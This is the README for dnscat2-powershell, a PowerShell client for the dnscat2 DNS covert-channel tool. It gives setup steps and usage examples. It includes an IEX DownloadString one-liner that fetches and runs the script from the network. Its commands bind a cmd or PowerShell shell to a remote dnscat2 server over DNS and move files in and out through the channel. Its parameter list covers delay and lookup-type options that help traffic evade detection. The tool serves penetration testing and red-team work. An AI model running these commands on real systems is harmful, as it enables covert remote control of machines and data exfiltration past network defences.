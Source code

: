 ```diff
- The upload and download functions inside the command session only work consistently with small files.
- Please use the original executable client if you require larger file transfers.
```

[dnscat2](https://github.com/iagox86/dnscat2) is a DNS covert channel tool by [@iagox86 (Ron Bowes)](https://blog.skullsecurity.org/) which is used to transfer data over DNS requests.

This is a powershell version of the dnscat2 C client.

[Click here for a blog post](http://www.blackhillsinfosec.com/?p=5578) that gives a more detailed breakdown of the purpose of this script, and how to use it.

To use this script, you'll need the ruby [dnscat2 server](https://github.com/iagox86/dnscat2). **Make sure to add the `--no-cache` option when running the server. This client is incompatible with the server's caching.**

### Setup

[First, install the dnscat2 server.](https://github.com/iagox86/dnscat2/blob/master/README.md) Start the server with caching disabled using `--no-cache`. The command to start your server should look something like this: `ruby dnscat2.rb --dns="domain=example.com" --no-cache`

Next, launch Windows Powershell (version 2.0 or later). You can use this command to load the dnscat2 powershell functions:

    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')

### Examples

Start-Dnscat2 is the actual function used as the client. Specifiy the dnscat2 server using `-Domain`.

    Start a command session, and send DNS requests to 8.8.8.8 on port 53:
        Start-Dnscat2 -Domain <dnscat2 server> -DNSServer 8.8.8.8

    Send a cmd shell, and send DNS requests to the default DNS Server set in Windows:
        Start-Dnscat2 -Domain <dnscat2 server> -Exec cmd

    Start a console session. Only use CNAME, MX, and AAAA requests:
        Start-Dnscat2 -Domain <dnscat2 server> -LookupTypes @("CNAME","MX","AAAA") -Console

    Do not encrypt the session. Encryption is enabled by default.
        Start-Dnscat2 -Domain <dnscat2 server> -NoEncryption

### Powershell Command Session Commands

The client can handle normal dnscat2 commands, or the *powershell version* of that command. To use the powershell version of a command, set specific parameters the client will detect (These are commands run from a command session on the server):

    Start a new session which simulates a Powershell shell, like ExecPS:
        exec psh

    Upload app.exe on the server into a hex string stored in the $app powershell variable:
        upload app.exe hex:$app
    
    Download the byte array stored in the $app powershell variable to app.exe on the server:
        download bytes:$app app.exe

### Start-Dnscat2

    -Domain <String>          The Domain being used by the dnscat2 server.
    -DNSServer <String>       The hostname or IP Address to send DNS queries to. (Default: Set by Windows)
    -DNSPort <Int32>          The port to send DNS queries to. (Default: 53)
    
    -Command                  Start a command session. (Default)
    -Exec <String>            Link the I/O of a process with the Dnscat2 session.
    -Console                  Link the I/O of the console with the Dnscat2 session.
    -ExecPS                   Simulate a Powershell session and link the IO with the Dnscat2 session.
                              WARNING: Exiting will kill the entire dnscat2 client, not just the session.
    
    -PreSharedSecret          Set the same secret on the server to authenticate and prevent MITM.
    -NoEncryption             Do not use encryption.
    
    -LookupTypes <String[]>   Set an array of lookup types to randomly switch between.
                              Only TXT, MX, CNAME, A, and AAAA records are supported. Default: @(TXT, MX, CNAME)
    -Delay <Int32>            Set a delay between each request, in milliseconds. (Default: 0)
    -MaxRandomDelay <Int32>   Set the max value of a random delay added to the normal delay, in milliseconds. (Default: 0)
    -MaxPacketSize <Int32>    Maximum length of a dnscat2 packet. (Default: 240)
    -Name <String>            The name of your dnscat2 session. (Default: hostname)

### ExecPS and 'exec psh'

dnscat2-powershell simulates a powershell session by passing data from the server to Invoke-Expression. Only stdout is returned, and variables are preserved as long as the client is running. **Watch out** for things that exit powershell like "exit" and "break", because the entire dnscat2-powershell client will exit, not just the ExecPS session.

### Other Credits

* [db9 on stackoverflow's](https://stackoverflow.com/users/6866918/db9) [demonstration of BouncyCastle ECDH.](http://stackoverflow.com/a/39662164)
* [FrankSpierings's](https://github.com/FrankSpierings) implementation of [Salsa20](https://gist.github.com/FrankSpierings/c18da658e06948313fff) and [Sha3](https://gist.github.com/FrankSpierings/3577b0365d02df6f7eeb) in Powershell via C#.
* [Rebex Labs stripped down version of the BouncyCastle DLL for ECC.](http://labs.rebex.net/curves)
